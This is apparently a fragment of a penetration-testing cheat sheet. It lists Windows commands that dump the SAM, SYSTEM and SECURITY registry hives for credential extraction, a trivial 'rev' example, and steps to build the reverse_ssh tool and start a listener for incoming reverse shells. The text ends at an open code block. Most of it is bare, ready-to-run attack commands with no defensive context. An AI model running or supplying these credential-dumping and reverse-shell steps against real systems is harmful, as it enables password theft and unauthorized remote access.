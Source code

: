### Dumping Credentials

```console
PS C:\Users\user\Downloads> reg save hklm\system system
PS C:\Users\user\Downloads> reg save hklm\sam sam
```

```cmd
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save
```

## rev

```console
$ echo "foobar" | rev
```

## Reverse SSH

```console
$ git clone https://github.com/NHAS/reverse_ssh
$ cd reverse_ssh
$ make
$ cd bin/
$ cat ~/.ssh/id_rsa.pub > authorized_keys
$ ./server 0.0.0.0:3232
```

```console
